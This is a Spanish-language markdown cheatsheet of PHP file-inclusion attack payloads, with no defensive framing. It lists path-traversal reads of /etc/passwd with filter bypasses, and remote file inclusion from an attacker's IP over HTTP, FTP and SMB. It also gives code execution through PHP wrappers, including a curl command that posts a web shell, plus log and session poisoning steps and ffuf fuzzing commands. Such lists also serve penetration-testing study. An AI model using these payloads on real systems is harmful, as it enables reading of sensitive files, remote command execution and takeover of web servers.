 # Cheatsheet ⚙

## Payloads Básicos 👶

| Payload | Descripción |
| --- | --- |
| `/index.php?file=/etc/passwd` | LFI Básico |
| `/index.php?file=../../../../../etc/passwd` | Path Traversal |
| `/index.php?file=/../../../../etc/passwd` | Name Prefix |
| `/index.php?file=/../../../../etc/passwd` | Path Aprobado |

## ByPass Filtros 👦

| Payload | Descripción |
| --- | --- |
| `/index.php?file=....//....//....//etc/passwd` | ByPass str_replace **NO Recursivo** |
| `/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | ByPass UrlEncode |
| `/index.php?file=../../../../etc/passwd%00` | Null Byte (⚠ Válido Para Versiones Antiguas de PHP) |
| `/index.php?file=/etc/././././//hosts` | ByPass Expresiones Regulares |
| `/index.php?file=/et?/././././//hos??` | ByPass Expresiones Regulares |
| `/index.php?file=/etc/passwd/.` | ByPass Expresiones Regulares |

## Wrappers 👨

| Payload | Descripción |
| --- | --- |
| `/index.php?file=php://filter/read=convert.base64-encode/resource=[Archivo]` | Wrapper Base64 |
| `/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | ByPass UrlEncode |
| `?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id` | Zip Wrapper |

## RFI 💻

| Payload | Descripción |
| --- | --- |
| `http://<Dominio>?filename=http://<IP Atacante>/tool.php&cmd=[Comando]` | Petición a un servidor `HTTP` |
| `http://<Dominio>?filename=ftp://<IP Atacante>/tool.php&cmd=[Comando]` | Petición a servidor `FTP` **Anonymous** |
| `http://<Dominio>?filename=ftp://USER@PASSWORD<IP Atacante>/tool.php&cmd=[Comando]` | Petición a servidor `FTP` **Crendenciales** |
| `http://<Dominio>?filename=\\<IP SMB Server>\[Nombre Directorio]\shell.php&cmd=whoami` | Petición a servidor `SMB` |


## RCE 📡

| Payload | Descripción |
| --- | --- |
| `?filename=expect://[Comando]` | RCE usando Wrapper expect |
| `[POST] php://input&cmd=id` | Cuerpo de la petición `<?php system($_GET[’cmd’]); >` |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | El comando anterior usando `curl` ❗ |
| `data://text/plain;base64,[Comando en Base64]` | Es imporante `Url Encodear` los caracteres especiales |
| Usando [php_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) 🐱‍👤 | `http://<Dominio>/?file=<Output Programa>&cmd=[Comando]` |


## Log Poisoning 🧪

| Ruta | Payload | Descripción |
| --- | --- | --- |
| `/var/log/apache2/access.log` | `?filename=/var/log/apache2/access.log&cmd=[Comando]` | Ruta Logs de Apache |
| `/var/log/nginx/access.log` | `?filename=/var/log/nginx/access.log&cmd=[Comando]` | Ruta Logs de Nginx |
| 1. Paso `/var/lib/php/sessions/` | `?language=/var/lib/php/sessions/sess_<PHPSESSID>` | PHP Session Poisoning |
| 2. Paso `/var/lib/php/sessions/` | `?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Incluyendo `<?php system($_GET['cmd']); ?>` |
| 3. Paso `/var/lib/php/sessions/` | `/var/lib/php/sessions/sess_<PHPSESSID>&cmd=[Comando]` | Ejecutar comando |



## Automatizando con `ffuf` 🐶

| Comando | Descripción |
| ------- | ----------- |
| `ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'` | Testear distintos payloads `LFI` |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'` | Descubrir rutas del sistema (Linux / Windows) |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value` | Descubrir parámetros a los cuales aputar Ej. (`?file=`, `?languaje=`, etc.) |